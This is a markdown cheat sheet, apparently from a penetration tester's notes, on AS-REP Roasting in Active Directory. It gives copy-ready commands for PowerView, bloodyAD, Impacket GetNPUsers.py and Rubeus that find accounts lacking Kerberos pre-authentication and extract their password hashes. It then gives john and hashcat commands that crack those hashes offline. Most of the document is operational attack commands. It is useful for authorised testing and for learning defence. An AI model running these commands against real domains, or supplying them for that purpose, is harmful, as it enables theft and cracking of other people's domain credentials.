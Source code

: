 # Overview
ASREPRoast is a security attack that exploits users who lack the **[[88 - Kerberos]] pre-authentication required attribute**. Essentially, this vulnerability allows attackers to request authentication for a user from the Domain Controller (DC) without needing the user's password. The DC then responds with a message encrypted with the user's password-derived key, which attackers can attempt to crack offline to discover the user's password.

## Prerequisites
- No Kerberos pre-authentication
- Ability to connect to the DC
- *Optional*: Having a domain account. This allows the attacker to identify users through LDAP. Without this account, the attacker has to guess the usernames.

## Tools
- [Rubeus Release](https://github.com/Flangvik/SharpCollection/blob/master/NetFramework_4.5_x64/Rubeus.exe)
- [Impacket - GetNPUsers.py](https://github.com/fortra/impacket/blob/master/examples/GetNPUsers.py)
- [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)
- [bloodyAD](https://github.com/CravateRouge/bloodyAD)


# Enumeration
Here we enumerate vulnerable users.
**Windows**
```powershell
# PowerView
Get-DomainUser -PreauthNotRequired -verbose
```

**Linux**
```bash
bloodyAD -u <USER> -p 'PASSWORD' -d <DOMAIN> --host <IP> get search --filter '(&(userAccountControl:1.2.840.113556.1.4.803:=4194304)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))' --attr sAMAccountName
```

# Request AS_REP message (Exploit)
**Linux**
```bash
# Try all the usernames the file provided
python GetNPUsers.py <DOMAIN> -usersfile <USER_FILE> -format hashcat -outputfile <HASHES_OUT>
# Use domain creds to extract targets and target them
python GetNPUsers.py <DOMAIN>/USER:PASSWORD -request -format hashcat -outputfile <HASHES_OUT>
```

**Windows**
```powershell
.\Rubeus.exe asreproast /format:hashcat /outfile:hashes.asreproast [/user:username]
Get-ASREPHash -Username USER -verbose
```


# Cracking Hashes
```bash
john --wordlist=<CLEAR_PASS> <HASHES_OUT>
hashcat -m 18200 --force -a 0 <HASHES_OUT> <CLEAR_PASS>
```


# References
- [https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/asreproast.html](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/asreproast.html)
- [https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/as-rep-roasting-using-rubeus-and-hashcat](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/as-rep-roasting-using-rubeus-and-hashcat)
